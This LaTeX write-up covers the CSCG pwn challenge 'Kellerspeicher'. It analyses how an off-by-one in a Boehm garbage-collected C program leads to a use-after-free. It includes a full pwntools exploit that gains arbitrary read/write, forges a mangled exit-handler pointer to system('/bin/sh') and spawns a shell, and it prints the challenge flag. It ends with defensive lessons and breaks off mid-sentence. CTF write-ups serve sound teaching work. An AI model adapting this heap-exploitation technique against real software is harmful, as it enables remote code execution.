\documentclass[a4paper,11pt]{article}
\usepackage[utf8]{inputenc}
\usepackage{hyperref}
\usepackage{listings}
\usepackage{xcolor}
\usepackage{graphicx}
\usepackage{geometry}
\geometry{margin=1in}

\title{CTF Writeup: Kellerspeicher}
\author{argator}
\date{\today}

\definecolor{codegray}{gray}{0.9}
\lstset{
    backgroundcolor=\color{codegray},
    basicstyle=\ttfamily\footnotesize,
    breaklines=true,
    frame=single,
    columns=fullflexible
}

\begin{document}

\maketitle

\section*{Challenge Overview}
\begin{itemize}
    \item \textbf{Name:} Kellerspeicher
    \item \textbf{Category:} PWN
    \item \textbf{Difficulty:} Hard
    \item \textbf{Author:} DIFF-FUSION
    \item \textbf{Platform:} CSCG
\end{itemize}

\section{Description}
\begin{quote}
"I build some Kellerspeicher for you. To prevent memory leaks I use a garbage collector. Definitely not because I'm lazy."
\end{quote}

\noindent \textbf{Provided Files:}
\begin{itemize}
    \item Source code in C
    \item \texttt{ld-linux-x86-64.so.2}
    \item \texttt{libc.so.6}
    \item \texttt{libgc.so.1}
    \item Docker setup
\end{itemize}

\section{Setup and Environment}

The challenge binary comes with this shared libraries that hints at its runtime environment:
\begin{itemize}
    \item \texttt{libgc.so.1} (the Boehm-Demers-Weiser garbage collector)
\end{itemize}

Instead of using traditional \texttt{malloc} and \texttt{free} from \texttt{libc}, the program uses the \href{https://github.com/ivmai/bdwgc}{Boehm GC} library for memory management. This implies memory is not manually freed — the garbage collector automatically reclaims memory that is no longer reachable.

\vspace{1em}
Looking at the source code, memory allocation is done as follows:
\begin{lstlisting}[language=C]
Keller *keller = GC_malloc(sizeof(Keller));
\end{lstlisting}

\subsection*{Custom Data Structures}

The program defines a structure called \texttt{Keller}, which is essentially a byte storage container:

\begin{lstlisting}[language=C]
typedef struct Keller {
    u8 *elemente;
    size_t benutzt;
    size_t frei;
} Keller;
\end{lstlisting}

There are two instances of this structure:
\begin{lstlisting}[language=C]
Keller *hauptkeller = NULL, *nebenkeller = NULL;
\end{lstlisting}

These act as two separate byte arrays.
There are some basic instructions implemented for them, e.g. add, remove, read and write to and from them. The function used to initialize them is:

\begin{lstlisting}[language=C]
Fehler kellerbau(Keller **rueckgabe, size_t groesse) {
    Keller *keller = GC_malloc(sizeof(Keller));
    if (keller == NULL) return KEIN_SPEICHER;

    keller->elemente = GC_malloc(groesse);
    if (keller->elemente == NULL) return KEIN_SPEICHER;

    keller->frei = groesse;
    keller->benutzt = 0;
    *rueckgabe = keller;
    return OK;
}
\end{lstlisting}

\subsection*{Key Observations}
\begin{itemize}
    \item The program uses two separate \texttt{GC\_malloc} calls: one for the \texttt{Keller} struct and one for its \texttt{elemente} buffer.
    \item The user controls the size of the allocated \texttt{elemente} buffer.
    \item Since garbage collection is in place, all chunks are allocated with from glibc different heap mechanisms, and traditional use-after-free and double-free bugs may behave differently.
\end{itemize}

\section{Static and Dynamic Analysis}

\subsection*{Static Analysis}

A review of the binary and its associated shared libraries using tools like \texttt{checksec} reveals:

\begin{itemize}
    \item All standard security features are enabled: \texttt{PIE}, \texttt{NX}, \texttt{Canary}, and \texttt{Full RELRO} for both the main binary and all shared libraries.
    \item An exception is \texttt{libgc.so.1}, which is compiled with only \texttt{Partial RELRO}. While this might suggest a potential shortcut to code execution, it is not exploitable in this challenge.
    \item This is because the only Boehm GC function used is \texttt{GC\_malloc}, and it is not referenced in the GOT. Other GC internals are not trivially usable due to argument control constraints.
\end{itemize}

\subsection*{Dynamic Analysis}

Using GDB to inspect memory at runtime reveals that:

\begin{itemize}
    \item Memory allocated via \texttt{GC\_malloc} does not lie in the standard heap region 
    \item Instead, GC-allocated memory resides in a separate region with a constant offset relative to the base addresses of other loaded libraries, including \texttt{libc.so.6}.
    \item This creates a significant advantage: by leaking a pointer such as \texttt{keller->elemente}, we can infer the base address of \texttt{libc}, since all offsets remain stable within the memory map.
\end{itemize}

\begin{figure}[h!]
    \centering
    
\includegraphics[width=\linewidth]{vmmap.png}
    \caption{Memory layout shown with GDB (\texttt{vmmap}) — GC heap is distinct and predictably offset from libc}
    \label{fig:enter-label}
\end{figure}

\section{Vulnerability Analysis}

The core vulnerability is introduced through a single function:

\begin{lstlisting}[language=C]
Fehler unterkellern(Keller *keller) {
    if (keller == NULL) {
        return KELLER_UNBELEGT;
    }
    if (unterkeller) {
        return DOPPELTER_UNTERKELLER;
    }
    keller->frei++;
    unterkeller = 1;
    return OK;
}
\end{lstlisting}

This function increases the \texttt{frei} field of the \texttt{Keller} structure by one, even though the actual allocation size remains unchanged. This effectively allows an off-by-one write — one byte past the allocated buffer.

Moreover, the boolean flag \texttt{unterkeller} prevents multiple invocations, ensuring the overwrite can only happen once per \texttt{Hauptkeller} instance. 

\subsection*{Impact of the Off-by-One Write}
Off-by-one writes may appear weak at first glance, but they can be very powerful depending on what lies directly after the buffer in memory. In traditional \texttt{libc} \texttt{malloc}, a single byte corruption of heap metadata can lead to:
\begin{itemize}
    \item Chunk size modification
    \item Forward/backward pointer tampering
    \item Bypasses for integrity checks
\end{itemize}

\subsection*{The Role of Boehm GC}

Unlike glibc's \texttt{malloc}, the challenge uses the Boehm-Demers-Weiser conservative garbage collector (\texttt{libgc.so.1}). To understand the exploitability of this off-by-one, we need to look into how Boehm GC allocates and manages memory.

\subsubsection*{Allocation Behavior}

In testing various allocation sizes via \texttt{GC\_malloc}, we observed that:
\begin{table}[h!]
    \centering
    \begin{tabular}{|c|c|}
        \hline
        \textbf{Requested Size Range} & \textbf{Allocated Chunk Size} \\
        \hline
        \texttt{0x00 -- 0x0f} & \texttt{0x10} \\
        \texttt{0x10 -- 0x1f} & \texttt{0x20} \\
        \texttt{0x20 -- 0x2f} & \texttt{0x30} \\
        \texttt{0x30 -- 0x3f} & \texttt{0x40} \\
        \texttt{0x40 -- 0x4f} & \texttt{0x50} \\
        \texttt{0x50 -- 0x5f} & \texttt{0x60} \\
        \texttt{0x60 -- 0x6f} & \texttt{0x70} \\
        \texttt{0x70 -- 0x7f} & \texttt{0x80} \\
        \hline
    \end{tabular}
    \caption{Requested vs. Allocated Chunk Sizes in Boehm GC}
    \label{tab:chunk-sizes}
\end{table}

Apparently there is always at least one byte allocated additonally to the requested size. You could guess that this one byte holds some very important metadata we could overwrite, but it turns out that the content in the byte is completely irrelevant... 


Unlike \texttt{malloc}, Boehm does not insert visible metadata directly adjacent to the user data.

\subsubsection*{Interior Pointers and Metadata}
One key concept in Boehm GC is \textbf{conservative pointer scanning}. By default, Boehm assumes that pointers may point not only to the beginning of allocated blocks, but also somewhere in the middle.

This is controlled by the setting:
\begin{itemize}
    \item \texttt{GC\_all\_interior\_pointers} (enabled by default)
\end{itemize}

\textbf{What does this mean?}

When this mode is enabled, Boehm:
\begin{itemize}
    \item Allows any interior address within an object to count as a valid reference (preventing collection)
    \item Places no metadata inline with user data, to avoid corrupting what may look like valid pointers
\end{itemize}

Thus, there is no metadata immediately following a \texttt{GC\_malloc} block that we can corrupt directly with an off-by-one.

\vspace{1em}
\textbf{However}, the fact that the GC assumes that any pointer into the middle of an allocated object should keep that object alive during garbage collection, leads immediately to the reason for that one extra byte.

To support this conservative strategy, the allocator ensures that every allocated object has at least one byte of "padding" beyond the requested size. This allows interior pointers — even those pointing just past the end of a user object — to still fall within the bounds of the underlying chunk and thus be treated as valid references by the GC.

Usually C operations iterate over objects and end with the iterating ptr just behind the object. In this case the object shouldn't be collected ( freed ) and the object behind that chunk in memory shouldn't be affected by this ptr.

This means:
\begin{itemize}
    \item A request for \texttt{n} bytes will allocate at least \texttt{n+1} bytes.
    \item The final byte is typically unused but remains mapped, making a one-byte overflow unlikely to crash or immediately corrupt metadata.
    \item However, due to our vulnerability, we actually are able to iterate to the very last byte of the chunk.
\end{itemize}

The last point gives raise to an use-after free, if the GC accidentially frees the chunk due to our bug. And indeed the write operation always finishes with the \texttt{elemente} ptr pointing to the \textbf{next} byte:
\begin{lstlisting}[language=C]
Fehler einkellern(Keller *keller, u8 element) {
    if (keller == NULL) {
        return KELLER_UNBELEGT;
    }
    if (!keller->frei) {
        return KELLER_VOLL;
    }
    keller->elemente[0] = element;
    keller->elemente++;
    keller->frei--;
    keller->benutzt++;
    return OK;
}
\end{lstlisting}



\subsection*{Conclusion}

Because \texttt{GC\_all\_interior\_pointers} is enabled, Boehm GC conservatively treats any interior pointer as a valid reference to a chunk. To accommodate this behavior safely, every allocated block is padded with at least one byte, ensuring that even a pointer incremented just beyond the end of the object remains “within” the allocation and prevents premature collection.

The introduced bug results in the following results:
\begin{itemize}
    \item The off-by-one pointer shift causes the GC to no longer consider the chunk live, since no pointer now references the chunk.
    \item The final increment of the \texttt{elemente} ptr (via \texttt{einkellern}) sets up a state where the \texttt{elemente} object is logically used, but the GC is free to reclaim it.
    \item When this chunk is reallocated and repurposed in future GC\_malloc calls (e.g., for a \texttt{Nebenkeller}), we retain a stale pointer that can still read from and write to it.
\end{itemize}


\section{Exploitation Strategy}

The core idea behind the exploit revolves around the behavior of the Boehm garbage collector: 
if there are no reachable references to an allocated chunk, it may be reclaimed and reused in a future \texttt{GC\_malloc}.

\subsection*{Step 1: Triggering Use-After-Free via Off-by-One}

By calling the vulnerable \texttt{unterkellern()} function, we increment the \texttt{frei} field of the \texttt{Hauptkeller}, which allows writing one byte past the actual allocation.

Using this one-byte overwrite, we advance the \texttt{elemente} pointer of the \texttt{Hauptkeller} by one byte, effectively pointing it *outside* the bounds of its originally allocated chunk.

Since Boehm GC now sees no reference in to the chunk, it considers the chunk to be unreachable and eligible for garbage collection. Eventually, it will be freed and reused.

\subsection*{Step 2: Reclaiming the Chunk via Repeated Allocations}

By repeatedly creating new \texttt{Nebenkeller} instances (each allocating their own \texttt{elemente}), Boehm GC will eventually reuse the chunk previously pointed to by the \texttt{Hauptkeller}'s \texttt{elemente}.

To detect when this reuse occurs, we can use a GDB \texttt{watchpoint} on the original chunk address. Once the watchpoint is hit during a \texttt{GC\_malloc} for a \texttt{Nebenkeller}, we know the \texttt{Nebenkeller}'s \texttt{elemente} now resides in the freed chunk.

At this point, both the \texttt{Hauptkeller -> elemente} and \texttt{Nebenkeller} point to overlapping memory — giving us a primitive to read and write from one structure into the other.

\subsection*{Step 3: Establishing Arbitrary Read/Write}

With both kellers accessing the same memory:
\begin{itemize}
    \item We can overwrite fields in particular the \texttt{elemente} pointer of the \texttt{Nebenkeller} through the \texttt{Hauptkeller}.
    \item This allows arbitrary read and write
    \begin{itemize}
        \item use \texttt{Hauptkeller} to write target address to \texttt{Nebenkeller -> elemente}
        \item use \texttt{Nebenkeller} to read or write to this address
    \end{itemize}
\end{itemize}

\subsection*{Step 4: Handling the Off-by-One Limitation}

Due to the off-by-one shift from the vulnerability, the \texttt{Hauptkeller}'s through the \texttt{elemente} ptr accessible area, now starts one byte too far into the chunk. This prevents writing to the very first byte of the chunk — meaning we cannot control the last byte of the \texttt{Nebenkeller}'s \texttt{elemente} ptr.

However, by iterating the \texttt{Nebenkeller}'s pointer using its \texttt{einkellern} method (e.g., incrementing it through writes), we can realign it to point exactly at the \texttt{Hauptkeller}. Swapping the roles of the two kellers then gives us full control of all 8 bytes of the \texttt{Hauptkeller}'s \texttt{elemente} ptr, resolving the last-byte problem.

\subsection*{Step 5: Achieving Code Execution}

With arbitrary read/write achieved, the final step is straightforward:
\begin{itemize}
    \item Overwrite a function pointer or hook inside the glibc — e.g., \texttt{\_\_exit\_func\_ptr} or similar.
    \item Point it to \texttt{system("/bin/sh")} or an equivalent payload.
\end{itemize}

Triggering an \texttt{exit()} will then cause the overwritten pointer to be invoked, executing arbitrary code.

\subsection*{Notes and Practical Considerations}

\begin{itemize}
    \item Ensure that the \texttt{Nebenkeller}'s allocation size does not align with the size class used for \texttt{Keller} itself (\texttt{0x20}), or else you may accidentally allocate the elemente object of the Nebenkeller into the accidentially freed chunk.
    \item To fully control the final byte of the \texttt{elemente} pointer, write a value $\geq$ \texttt{0xff} — ensuring you can change the elemente pointer's last byte, to any possible byte.
\end{itemize}


\section{Exploit Code}
\begin{lstlisting}[language=Python]
import pwn
import struct
from enum import Enum

#p = pwn.process('./main-dbg')
#p = pwn.remote('127.0.0.1', 1024, fam='ipv4')
p = pwn.remote("81a2ff6ee0881646b872c485-1024-kellerspeicher.challenge.cscg.live" ,1337, ssl=True,fam = 'ipv4')


def rol(value, bits, width=64):
    return ((value << bits) | (value >> (width - bits))) & (2**width - 1)

def ror(value, bits, width=64):
    return ((value >> bits) | (value << (width - bits))) & (2**width - 1)


def ptr_demangle(ptr_enc, cookie): 
    return ror(ptr_enc, 0x11) ^ cookie 

def ptr_mangle(ptr, cookie):
    return rol(ptr ^ cookie, 0x11)

class Keller(Enum):
    HK = 1
    NK = 2

def choose(opt: int|str|bytes):
    p.recvuntil(b':')
    if type(opt) != bytes:
        opt = f'{opt}'.encode()
    p.sendline(opt)

def new_keller(size: int, keller_type) -> Keller:
    if keller_type == Keller.HK:
        choose(1)
    elif keller_type == Keller.NK:
        choose(2)
    choose(size)
    return keller_type

def einkellern(i: int, keller_type):
    if i > 0xff:
        raise ValueError('cant store values greater than 0xff')
    if keller_type == Keller.HK:
        choose(5)
    elif keller_type == Keller.NK:
        choose(6)
    choose(hex(i)[2:])

def einkellern_bytes(b: bytes, keller_type):
    for c in b:
        einkellern(c, keller_type)

def auskellern(keller_type) -> int:
    if keller_type == Keller.HK:
        choose(7)
    elif keller_type == Keller.NK:
        choose(8)
    try:
        l = p.recvline().strip()
        print(l)
        val = int(l.split(b' ')[1], 16)
    except (ValueError, IndexError) as e:
        val = -1
    return val

def abriss(keller_type):
    if keller_type == Keller.HK:
        choose(3)
    elif keller_type == Keller.NK:
        choose(4)

def unterkellern(keller_type):
    if keller_type == Keller.HK:
        choose(11)
    elif keller_type == Keller.NK:
        raise ValueError('Cannot unterkeller the Nebenkeller')

def setup_rw():
    # trigger free(HK->elemente)
    new_keller(0x1f, Keller.HK)
    unterkellern(Keller.HK)
    einkellern_bytes(0x1f * b'\xAA' + b'\xBB', Keller.HK)

    # allocate NKs until reallocated in HK->elemente 
    for i in range(0, 543):
        new_keller(0xff, Keller.NK)

    # move HK->elemente back to beginning
    mem = b''
    for i in range(0x1f):
        mem += int.to_bytes(auskellern(Keller.HK))

    # leak NK->elemente ptr -> gives full libc leak
    addr = struct.unpack('>Q', mem[-7:] + b'\x00')[0]
    print(f'NK.elemente={hex(addr)}')
    return addr

def set_hk_elem(addr: int):
    addr = pwn.p64(addr)
    einkellern_bytes(addr, Keller.NK)
    for _ in range(8):
        auskellern(Keller.NK)

def read(addr: int) -> bytes:
    set_hk_elem(addr+8)
    
    mem = b''
    for i in range(0x8):
        mem += int.to_bytes(auskellern(Keller.HK))
    
    addr = struct.unpack('>Q', mem)[0]
    return addr
    

def write(addr: int, b: bytes):
    set_hk_elem(addr)
    einkellern_bytes(b,Keller.HK)
    


def main():
    print(p.recvuntil(b'herunterfahren').decode())

    addr_NE = setup_rw()
    offset_NE_to_H = 0xaee0
    addr_H = addr_NE + offset_NE_to_H
    
    # calculate libc base
    base = addr_H - 0x11fe0

    # Let NK->elemente pointing to HK 
    einkellern(pwn.p64(addr_H)[1],Keller.HK)
    einkellern(pwn.p64(addr_H)[2],Keller.HK)
    auskellern(Keller.HK)
    auskellern(Keller.HK)
    for _ in range(pwn.p64(addr_H)[0]- 0x1e + 0x18):
        einkellern(0xde,Keller.NK)
    for _ in range(0x18):
        auskellern(Keller.NK)
    


    dl_fini = base + 0x2dd380
    addr_mangled_ptr = base + 0x257fd8
    system = base + 0xab740
    binsh = base + 0x21e42f

    fs_base = base + 0x50740
    cookie = read(fs_base + 0x30)

    # system has to be written mangled into the exit funcs struct
    new_mangled_ptr = ptr_mangle(system, cookie)

    write(addr_mangled_ptr, pwn.p64(new_mangled_ptr))
    
    # overwrite arg
    write(addr_mangled_ptr + 8 , pwn.p64(binsh))


    choose(12)

    #drops shell
    p.interactive()
    exit()

    
if __name__ == '__main__':
    try:
        main()
    except Exception as e:
        import traceback
        traceback.print_exc()
    finally:
        input('end')
        print(p.recvall(timeout=1))

\end{lstlisting}

\section{Flag}
\begin{lstlisting}
CSCG{einkellern_auskellern_umkellern_unterkellern__kellerspeicher_machen_spass}
\end{lstlisting}

\section{Reflections}

This challenge highlights several important lessons, especially when working with non-standard memory management systems like the Boehm garbage collector.

\subsection*{Importance of Understanding Your Tools}

Although no classical buffer overflow occurred — we merely shifted a pointer one byte forward — this alone was enough to cause a use-after-free and ultimately achieve remote code execution. This reinforces the point that:

\begin{itemize}
    \item \textbf{Security does not only rely on what you allocate, but also on how it's freed.}
    \item Garbage-collected environments still carry exploitation risks when internal behaviors are misunderstood or misused.
\end{itemize}

Before relying on a third-party memory management library, especially in a security-critical application, it is essential to understand:
\begin{itemize}
    \item How and when memory is collected (e.g., Boehm’s mark-and-sweep mechanism)
    \item What constitutes a “live” vs. “unreachable” reference
    \item Whether interior pointers are tracked (\texttt{GC\_all\_interior\_pointers})
\end{itemize}

\subsection*{Preventability of the Vulnerability}

This particular bug — a silent off-by-one pointer shift — could likely have been detected early with:
\begin{itemize}
    \item Static analysis tools
    \item Dynamic tools like \texttt{AddressSanitizer} or \texttt{Valgrind}
    \item Compiler flags such as \texttt{-fsanitize=address}
\end{itemize}

Even though these tools may need some tuning to work with garbage-collected environments, applying them to the C portions of the code (including the `unterkellern()` logic) would likely have revealed the erroneous write.

\subsection*{General Takeaways}
\begin{itemize}
    \item One-byte errors can be critical — especially in the heap.
    \item Conservative GC doesn't eliminate exploitation risk — in some cases, it can simplify or even introduce unexpected attack surfaces.
    \item A solid understanding of low-level

        
\end{itemize}

\end{document}
